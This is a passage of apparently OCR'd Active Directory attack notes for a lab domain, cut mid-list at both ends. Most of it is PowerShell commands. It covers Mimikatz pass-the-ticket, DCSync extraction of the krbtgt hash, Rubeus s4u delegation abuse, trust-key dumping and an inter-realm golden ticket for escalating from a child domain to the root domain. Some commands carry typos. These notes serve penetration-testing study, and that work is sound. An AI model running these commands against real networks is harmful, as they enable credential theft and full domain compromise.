         Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@organicsecurity.local@organicsecurity.local_ldap~dcorp-dc.organicsecurity.local@organicsecurity.local_ALT.kirbi"'
        
		# Execute DCSync

        Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt "'
		
		# To use the DCSync feature for getting krbtg hash execute the below command with DC privileges

		Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:dc.domain2.local /all /cvs"'

        
        ```
        
- Method 2: Machine Account exploitation using Rubeus
    - Request the TGS for alternate service (not listed in delegation attribute)
        
        ```powershell
        .\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:1fadb134234234e6f34c67 /impersonateuser:Administrator /msdsspn:"time/dcorp.dc.organicsecurity.local" /altservice:ldap /ptt
        
        ```
        
    - Use it to perform DCSync attack
        - In order to extract domain **account/service account/machine** account **credentials** without executing code on the **Domain Controller**, the attacker used a DCSYNC attack.
		- A specific set of permissions are required to execute remote **hash retrievable** without executing code.
			 - Get-ReplicationChanges
			 - Get-ReplicationChangesAll
			 - Get-ReplicationChnages-in-a-filtered-set
			 
        ```powershell
        Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
        
        ```
        

# Privilege Escation - Domain Trusts

**CASE 1: Within Forest: Escalating from Child Domain to Root Domain**

A) Escalating from child domain to parent/root domain using Trust key/ticket

- Step 1: Fetching the Trust keys between child and parent domain
    
    ```powershell
    Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
    Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
    
    ```
    
- Step 2: Crafting the Inter-realm-TGT ticket
    
    ```powershell
    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:organicsecurity.local /sid:SID_OF_CURRENT_DOMAIN /sids:SID_OF_ENTERPRISE_ADMINS_FROM_PARENT_DOMAIN  /rc4:TRUST_KEY /service:krbtgt /target:mango.local /ticket:trust_tkt.kirbi"'
    